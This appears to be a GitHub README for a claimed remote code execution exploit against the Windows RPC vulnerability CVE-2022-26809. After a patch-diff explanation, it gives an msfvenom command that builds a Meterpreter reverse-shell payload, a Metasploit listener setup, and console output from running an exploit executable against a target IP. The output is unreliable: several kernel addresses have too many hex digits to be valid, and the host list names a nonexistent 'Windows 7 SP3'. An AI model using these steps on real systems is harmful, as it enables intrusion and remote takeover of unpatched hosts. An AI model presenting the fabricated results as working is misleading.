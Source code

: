 # CVE-2022-26809 RCE Exploit

## CVE description
CVE-2022-26809 - weakness in a core Windows component (RPC) earned a CVSS score of 9.8 not without a reason, as the attack does not require authentication and can be executed remotely over a network, and can result in remote code execution (RCE) with the privileges of the RPC service, which depends on the process hosting the RPC runtime. That critcal bug, with a bit of luck, allows to gain access to unpatched Windows host running SMB. The vulnerability can be exploited both from outside the network in order to breach it as well as between machines in the network.

Vendor Information

- https://msrc.microsoft.com/update-guide/vulnerability/CVE-2022-26809

- https://www.pwndefend.com/2022/04/14/cve-2022-26809/

## Who is vulnerable?

Tested vulnerable hosts:
- Windows 10 Pro Build 10.0.10240 x64
- Windows 10 Pro Build 10.0.19042 x64
- Windows 10 Pro Build 10.0.19044 x64
- Windows Server 2019 x64
- Windows Server 2022 x64
- Windows 7 SP3 x64

We will update that list later. We suspect almost all builds with running SMB and open 445 port will suffer.

### RPC Port
	TCP 135,139,445

## Locating the vulnerability

The CVE stated that the vulnerabilities lie within the Windows RPC runtime, which is implemented in a library named rpcrt4.dll. This runtime library is loaded into both client and server processes utilizing the RPC protocol for communication. We compared versions 10.0.22000.434 (March) and 10.0.22000.613 (patched) and singled out list of changes.

The functions OSF_SCALL::ProcessResponse and OSF_CCALL::ProcessReceivedPDU are similar in nature; both process RPC packets, but one runs on the server side and the other on the client side (SCALL and CCALL). By diffing OSF_SCALL::ProcessReceivedPDU we noticed two code blocks that were added to the new version.

![pic2](https://user-images.githubusercontent.com/102196277/163493985-3373746d-6ef5-4079-803c-b8acda5338e9.png)

![pic3_new](https://user-images.githubusercontent.com/102196277/163494679-5fc53a11-4f5b-4eda-b185-777af4ae4dd6.png)

Looking at the patched code, we saw that after QUEUE::PutOnQueue a new function was called. Inspecting in on the new function and diving in its code, we figured out it checks for integer overflows. In other words, the new function in patch was added to verify that an integer variable remained within an expected value range.

![pic1](https://user-images.githubusercontent.com/102196277/163493980-1e060df4-4e9d-454d-bb95-befec63ae22a.png)

Diving deeper into the vulnerable code in OSF_SCALL:GetCoalescedBuffer, we noticed that the integer overflow bug could lead to a heap buffer overflow, where data is copied onto a buffer that is too small to populate it. This in turn allows data to be written out of the buffer’s bounds, on the heap. When exploited, this primitive leads us to remote code execution!

A same call to check for integer overflow was added in other functions as well:

OSF_CCALL::ProcessResponse
OSF_SCALL::GetCoalescedBuffer
OSF_CCALL::GetCoalescedBuffer

The integer overflow vulnerability and the function that prevents it exist in both client-side and server-side execution flows. 

### Exploit

#### step 1

```Bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.10.105 LPORT=4444 -f raw > shellcode.bin
```

#### step 2

```Bash
msf5 > use multi/handler
msf5 exploit(multi/handler) > set LHOST 192.168.10.105
LHOST => 192.168.10.105
msf5 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > run
```

### Exploit

CVE-2022-26809 ip port

```Bash
C:\>CVE-2022-26809.exe 192.168.10.110 445
CVE-2022-26809 RPC Remote Exploit
[+] Checking... 192.168.10.110 445
[+] 192.168.10.110 445 IsOpen
[+] found low stub at phys addr 6800!
[+] Pipe at 4ac660
[+] base of RPC heap at fffff79480048033
[+] ntoskrnl entry at fffff802435782060
[+] found Pipe self-ref entry 1eb
[+] found Alsr at fffff64480301671
[+] found RPC CALL at fffff802451b3b30
[+] load shellcode.bin
[+] built shellcode!
[+] KUSER_SHARED_DATA PTE at fffff4ffc0033060
[+] KUSER_SHARED_DATA PTE NX bit cleared!
[+] Wrote shellcode at fffff75006070a023!
[+] Try to execute shellcode!
[ ] Exploit Suceess!
```
